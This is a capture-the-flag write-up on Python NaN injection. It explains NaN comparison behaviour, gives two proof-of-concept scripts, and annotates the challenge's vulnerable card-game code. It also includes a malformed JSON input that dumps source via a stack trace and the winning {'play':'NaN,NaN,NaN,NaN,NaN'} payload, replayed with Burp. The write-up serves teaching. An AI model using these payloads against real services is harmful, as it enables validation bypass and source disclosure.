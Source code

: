 ## Objective


## Solution

#### NaN concepts 0
- NaN (Not a Number) is a special value representing missing or undefined Python data.

#### NaN concepts 1
- ```float(str)``` can process a string "NaN" without any error
- When added or multiplied or any other operation is performed with the ```nan``` it is nan which wins
- Some results of comparison with NaN
```python
small = float("NaN")
big = float(999.999)

print(big>small)
print(small>big)
print(small==big)
```
```output
False
False
False
```
#### NaN concepts 2

- When float converts ```NaN``` it becomes ```nan```
- NaN conversion effect
```python
boo = float("NaN")
if boo == "NaN":
    print("Got a NaN")
else:
    print("There is no NaN? What is the the value of boo?")
    print(boo)
```
```
There is no NaN? What is the the value of boo?
nan
```

#### NaN injection example PoC 1
- The code below is supposed to store 5 unique numbers
- We can enter ```NaN``` 5 times and at the end of the execution the entire list will have 5 ```nan``` values
```python3
def get_unique_numbers():
    unique_numbers = set()

    while len(unique_numbers) < 5:
        try:
            user_input = float(input(f"Enter unique number {len(unique_numbers) + 1}: "))
            if user_input in unique_numbers:
                print("Number already entered. Please enter a unique number.")
            else:
                unique_numbers.add(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")

    return list(unique_numbers)

if __name__ == "__main__":
    unique_numbers_list = get_unique_numbers()
    print("You entered the following unique numbers:", unique_numbers_list)
```
```
Enter unique number 1: 4
Enter unique number 2: 4
Number already entered. Please enter a unique number.
Enter unique number 2: NaN
Enter unique number 3: NaN
Enter unique number 4: NaN
Enter unique number 5: NaN
You entered the following unique numbers: [nan, 4.0, nan, nan, nan]
```

#### NaN injection example PoC 2
- The code below stores 5 numbers and returns the max and the min value
```python
def get_user_inputs():
    numbers = []
    for i in range(5):
        try:
            user_input = float(input(f"Enter number {i + 1}: "))
            numbers.append(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")
            i -= 1  # Decrement the loop counter to re-enter the current input

    return numbers

if __name__ == "__main__":
    user_numbers = get_user_inputs()

    if user_numbers:
        highest_number = max(user_numbers)
        lowest_number = min(user_numbers)

        print("Entered numbers:", user_numbers)
        print("Highest number:", highest_number)
        print("Lowest number:", lowest_number)
```
```
Enter number 1: NaN
Enter number 2: -11
Enter number 3: 0
Enter number 4: 3333
Enter number 5: 44
Entered numbers: [nan, -11.0, 0.0, 3333.0, 44.0]
Highest number: nan
Lowest number: nan
```
#### Dump code via error stacktrace

- Trigger an error that will dump the code
```
{"play":"0x5,6,7,8,9"}
```

#### Vulnerable code analysis
- Inject NaN
- Bypass the unique card check
- ```max()``` and ```min()``` returns ```nan``` is all cases
```python3
# Error in function named play_cards:
....
        for row in reader:
            for n in row:
                n = float(n) #----------> Inject NaN here
                if is_valid_whole_number_choice(n) and n not in [x['num'] for x in player_cards]:
                    player_cards.append({
                        'owner': 'p',
                        'num': n
                    })
            break

        #-----------> Bypass the check here
        if len(player_cards) != 5:
            return jsonify({
                "request": False,
                "data": f"Requires 5 unique values but was given \"{csv_card_choices}\""
            })
....
        
        maxItem = False
        minItem = False

        #-----------> NaN magic here
        if bool(len(all_cards)):
            maxItem = max(all_cards, key=lambda x: x['num'])
            minItem = min(all_cards, key=lambda x: x['num'])

....
```

#### Forge for the win
- We will use Burp Repeater to solve the challenge.
- Send JSON data with NaN for all the cards number
```json
{"play":"NaN,NaN,NaN,NaN,NaN"}
```
- For every successful response replace the old cookie with the new cookie
- Once the score reached 10 we would get the win success hash in our response
```json
{
   "data":{
      "conduit":{
         "hash":"a2a6c9bcc95608962d98d885e847c08e36908e00048cedf000fd259bd02e6f61",
         "resourceId":"b5187f3e-8cd5-48c3-9796-001f332ea558"
      },
     ......
}
```

#### Reference
- https://www.tenable.com/blog/python-nan-injection
